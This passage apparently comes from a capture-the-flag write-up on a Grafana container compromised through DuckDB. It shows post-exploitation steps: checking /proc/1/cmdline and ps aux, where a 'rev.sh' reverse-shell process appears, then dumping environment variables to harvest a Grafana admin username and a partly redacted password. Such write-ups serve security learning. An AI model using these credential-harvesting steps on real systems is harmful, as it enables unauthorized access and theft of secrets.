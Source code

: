 We have our shell and with a hostname that only a mother could love, it looks like we're likely on a docker container. There are a few other notable things that hint at this as well.
Typically on actual user systems, you'd start a master process like `systemd` or `init` to mediate background processes and such. You can see this on your own system:
```bash
# On my system, using systemd
cat /proc/1/cmdline
/usr/lib/systemd/systemd--system--deserialize=83
# On the container
cat /proc/1/cmdline
grafanaserver--homepath=/usr/share/grafana--config=/etc/grafana/grafana.ini--packaging=dockercfg:default.log.mode=consolecfg:default.paths.data=/var/lib/grafanacfg:default.paths.logs=/var/log/grafanacfg:default.paths.plugins=/var/lib/grafana/pluginscfg:default.paths.provisioning=/etc/grafana/provisioning

```
The first process, was simply to run grafana, the kind of specificity that a container is perfect for.

And something that helps us verify 100% that the exploit was valid, looking at all of the processes:
```bash
root@7ce659d667d7:~# ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.1  5.8 1603200 110692 ?      Ssl  May17   2:51 grafana server --homepath=/usr/share/grafana --config=/etc/grafana/grafana.ini --packaging=docker cfg:default.log.mode=console cfg:default.paths.data=/var/lib/grafana cfg:default.paths.logs=/var/log/grafana cfg:default.paths.plugins=/var/lib/grafana/plugins cfg:default.paths.provisioning=/etc/grafana/provisioning
root         465  0.0  1.1 348576 22784 ?        Sl   18:49   0:00 /usr/local/bin/duckdb
root         473  0.0  0.1   4364  2944 ?        S    18:49   0:00 bash rev.sh
root         484  0.0  0.1   7064  2944 ?        R    19:05   0:00 ps aux

```

duckDB is definitely installed and you can see there's only 2 processes running that...aren't related to our actions.  There's apparently a way to check via cgroups `cat /proc/1/cgroup` however, the presence of anything obviously docker isn't there. So this was enough for me to verify.

If you're familiar with containers, one of the things you do, typically is pass environment variables for them to have access to API keys, database credentials, or anything sensitive that you don't typically want in just plain-text. So we stick them in plain text as arguments to the container, because we're obviously security conscious.
So let's take a look.
```bash
root@7ce659d667d7:~# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTec[--REDACTED---]
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```